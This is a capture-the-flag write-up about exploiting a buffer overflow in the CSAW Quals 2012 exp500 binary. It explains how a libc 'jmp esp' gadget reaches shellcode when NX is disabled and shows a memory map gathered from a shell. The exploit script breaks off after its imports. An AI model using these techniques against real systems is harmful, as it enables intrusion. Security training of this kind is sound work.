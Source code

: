 ```yaml
---
title: 'CSAW Quals 2012 &#8211; exp500'
author: awreece
layout: post
permalink: /?p=1015
categories:
  - CTF
  - Write-Ups
---
```

### Overview

[challenge1][1] is an Linux x86 binary that has a buffer overflow. Using information disclosed from another problem, we can use libc gadget to jump to our shellcode.



### Writeup

After reversing through the standard network / privilege dropping code, we find an interesting function <tt>q_generate</tt> that has a buffer overflow.

[<img src="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-5.46.51-PM.png" alt="Vulnerable function" title="Vulnerable function" style="width:100%;" class="size-full wp-image-1017" />][2] 

Here we take advantage of having a shell on the box (via exp400) to get some useful information: we get a copy of libc to search for gadgets and the base offset where libc is loaded.

<pre>$ cat /proc/self/maps
08048000-08053000 r-xp 00000000 08:01 786434     /bin/cat
08053000-08054000 r-xp 0000a000 08:01 786434     /bin/cat
08054000-08055000 rwxp 0000b000 08:01 786434     /bin/cat
08055000-08076000 rwxp 00000000 00:00 0          [heap]
b7e31000-b7e32000 rwxp 00000000 00:00 0
b7e32000-b7fd1000 r-xp 00000000 08:01 1572883    /lib/i386-linux-gnu/libc-2.15.so
b7fd1000-b7fd3000 r-xp 0019f000 08:01 1572883    /lib/i386-linux-gnu/libc-2.15.so
b7fd3000-b7fd4000 rwxp 001a1000 08:01 1572883    /lib/i386-linux-gnu/libc-2.15.so
b7fd4000-b7fd7000 rwxp 00000000 00:00 0
b7fdb000-b7fdd000 rwxp 00000000 00:00 0
b7fdd000-b7fde000 r-xp 00000000 00:00 0          [vdso]
b7fde000-b7ffe000 r-xp 00000000 08:01 1572880    /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r-xp 0001f000 08:01 1572880    /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rwxp 00020000 08:01 1572880    /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
</pre>

We also observe that NX is disabled, so we use a <tt>jmp esp</tt> gadget from libc to jump to our shellcode.

<pre>#!/usr/bin/python                                                               
import struct                                                                   
import socket                                                                   
import telnetlib                                                                
import sys                                                                      
import string                                                                   


 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp500.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-5.46.51-PM.png
